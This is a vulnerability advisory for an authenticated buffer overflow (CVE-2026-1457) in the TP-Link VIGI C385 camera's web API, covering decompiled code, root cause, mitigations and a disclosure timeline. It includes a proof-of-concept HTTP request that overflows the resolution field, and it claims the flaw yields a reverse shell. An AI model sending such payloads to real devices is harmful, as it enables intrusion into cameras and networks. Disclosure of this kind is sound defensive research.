

# CVE-2026-1457: TP-Link VIGI C385 Authenticated Remote Code Execution

## Overview

CVE-2026-1457 is an authenticated buffer overflow vulnerability in the web API of TP-Link VIGI C385 V1. This vulnerability allows authenticated attackers to perform remote code execution (RCE).

**CVSS v4.0 Score: 8.5 (High)**

**CVSS:4.0/AV:A/AC:L/AT:N/PR:H/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N**

## Affected Products

| Product Model | Affected Version |
|--------------|-----------------|
| VIGI C385 V1 | < 3.1.1 Build 251124 Rel.50371n |

## Vulnerability Details

### Vulnerability Location

The `set_resolution_18AAD8` function uses `strcpy` to copy user input into a buffer without length validation, resulting in a buffer overflow.

### Vulnerability Code Analysis

```c
int __fastcall set_resolution_18AAD8(int a1, char a2)
{
  const char *string_origin; // r5
  const char *v4; // r4
  int result; // r0
  char v6[72]; // [sp+0h] [bp-A0h] BYREF
  char v7[88]; // [sp+48h] [bp-58h] BYREF

  memset(v6, 0, sizeof(v6));
  memset(v7, 0, 72);
  string_origin = jso_obj_get_string_origin(a2, (char)"secname");
  v4 = jso_obj_get_string_origin(a2, (char)"resolution");
  sub_1FE6BC((int)"/video/main", (int)v6, 0x48u);
  sub_1FE6BC((int)"/video/minor", (int)v7, 0x44u);
  if ( !strcmp(string_origin, "main") )
  {
    result = strcmp(v4, &v6[29]);
    if ( result )                               // true if v4 is greater than &v6[29]
    {
      sub_1FE6BC((int)"/video/main", (int)v6, 0x48u);
      strcpy(&v6[29], v4);                      // ⚠️ buffer overflow
      sub_1FE804("/video/main", v6, 72);
      return 0;
    }
  }
  else if ( !strcmp(string_origin, "minor") )
  {
    result = strcmp(v4, &v7[29]);
    if ( result )
    {
      sub_1FE6BC((int)"/video/minor", (int)v7, 0x48u);
      strcpy(&v7[29], v4);                      // ⚠️ buffer overflow
      sub_1FE804("/video/minor", v7, 72);
      return 0;
    }
  }
  else
  {
    msg_debug(3, "http_do_setResolution", 3137, "[HTTPD]set resolution param error.\n");
    return -40209;
  }
  return result;
}
```

### Root Cause

1. The `v6` buffer is declared as 72 bytes, but `strcpy` is performed at position `&v6[29]`.
2. The `v7` buffer is declared as 88 bytes, but `strcpy` is performed at position `&v7[29]`.
3. User input (`v4`) is not validated for length before using `strcpy`, causing a buffer overflow.
4. The remaining buffer space is only 43 bytes (`v6`) and 59 bytes (`v7`) respectively, but longer strings can be copied.

## Attack Scenario

### Requirements

- Authenticated session (valid `stok` token required)
- Network access (same network or administrative network)

### Attack Vector

An attacker can exploit the `set_resolution` functionality of the `/ds` endpoint to send malicious payloads.

## Proof of Concept

### HTTP Request Example

```http
POST /stok=9p73~f9L0fGs33wt3D3XDc)7u)!wt83f/ds HTTP/1.1
Host: 192.168.0.100
Content-Length: 3015
Content-Type: application/json; charset=UTF-8
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Origin: https://192.168.0.100
Connection: close

{
  "video": {
    "set_resolution": {
      "secname": "main",
      "resolution": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    }
  },
  "method": "do"
}
```

### Exploit Result
This document does not contain executable exploit code.
The following screenshot demonstrates successful exploitation resulting in a reverse shell connection:



## Mitigation

### Recommended Actions

1. **Firmware Update**: Update affected devices to version **3.1.1 Build 251124 Rel.50371n** or later.

2. **Network Isolation**: If possible, place VIGI C385 devices in an isolated network segment.

3. **Access Control**: Restrict access to the management interface to trusted networks only.

4. **Monitoring**: Monitor for abnormal network traffic or device behavior.

### Temporary Mitigation Measures

- Block external access to the web management interface.
- Use strong authentication credentials.
- Disable unnecessary network services.

## Timeline

- **2025-04-25**: Vulnerability discovered
- **2025-08-29**: Vulnerability reported to TP-Link
- **2026-01-29**: Security advisory published
- **2026-01-29**: Public disclosure

## References

- [TP-Link Security Advisory](https://www.tp-link.com/us/support/faq/4931/)
- CVE-2026-1457

## Credits

This vulnerability was discovered and analyzed by:

- SeonGoo Lee (classun9)
- MinSeong Kim (ii4gsp)

of NSHC RedAlert Labs
